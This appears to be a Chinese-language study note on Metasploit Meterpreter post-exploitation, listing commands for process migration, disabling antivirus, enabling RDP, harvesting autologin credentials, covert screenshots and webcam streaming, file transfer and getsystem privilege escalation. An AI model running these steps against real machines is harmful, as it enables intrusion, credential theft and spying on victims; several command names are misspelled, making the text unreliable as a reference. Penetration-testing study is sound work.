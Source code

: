 ```yaml
---
title: 后渗透
date: 2021-04-28 14:55:50
author: sec
---
```

# 后渗透攻击：信息收集
&emsp;&emsp;成功对目标机器攻击渗透之后还可以做很多有趣的事情。Metasploit提供了一个非常请打的后渗透工具--Meterpreter，该工具有很多功能。使后续的渗透变的容易。Meerrerer特点如下：
- 纯内存工作模式不需要对磁盘进行任何写入操作
 - 使用加密通信协议，而且可以同时与几个新到通信
。
- 在被攻击进程内工作不需要创建新的进程。
- 易于在多进程之间迁移。
## 进程迁移
刚获得Metrpreter Shell时，该Shell是极其脆弱的，例如攻击者可以利用浏览器漏洞攻陷目标机器，但是攻击渗透后浏览器可能会被用户关闭。所以我们要移动这个Shell。把它和一个稳定的进程绑定起来。
输入ps可以获取目标机器正在运行的程序。
输入getid命令查看Meterpreter Shel的进程号。
输入migrate 448可以讲进程移动到448进程中。
进程迁移到448之后原来的进程会自动关闭。
## 系统命令
获得了稳定的进程后，接下来手机系统信息。
输入sysinfo命令查看目标的系统信息。
输入run post/windows/gather/checkvm命令查看目标机器是否运行在虚拟机。
输入idletime命令可以查看目标机器最近的运行时间。
输入background命令将当前会话放到后台，此命令适合在多个Meterpreter会话的场景下使用。
输入getuid命令查看当前目标上已经渗透成功的用户名。
输入run /post/windows/manage/killav命令关闭目标机的杀毒软件。
输入run post/windows/manage/enable_rdp命令启动目标机器的远程桌面协议。
输入run post/windows/manage/autorte命令查看目标机的本地子网情况。
输入 post/windows/gather/enum_logged_on_users命令列举当前有多少用户登录了目标机。
输入run post/windows/gather/enum_applications命令列举安装在目标机的应用程序。
输入run post/windows/gather/credentials/windows_autologin可以抓取自动登录的用户名和密码。
输入load espia加载Espia插件。再输入screengrab命令就可以抓到屏幕截图。
输入webcam_list查看目标机是否有摄像头。
输入webcam_snap打开目标机的摄像头。
输入webcam_stream命令可以开启直播模式。
输入shell可以进入目标机Shell下面。
# 文件系统命令
pwd或getwd查看当前处于目标机的哪个目录
ls列出当前目录中所有文件
cd切换目录
download c:\test.tst/root下载目标机C盘的test.txt文件到攻击机root下。
upload /root/test.txt c:\:上传攻击机root目录下的test.txt文件到目录机C盘下。
# 后渗透攻击：权限提升
提升权限的方式有一下两种：
1. 纵向提权：低权限角色获得高权限角色
2. 横向提权：获取同级别角色的权限

输入getuid命令查看已经获得的权限
输入getsystem命令提权

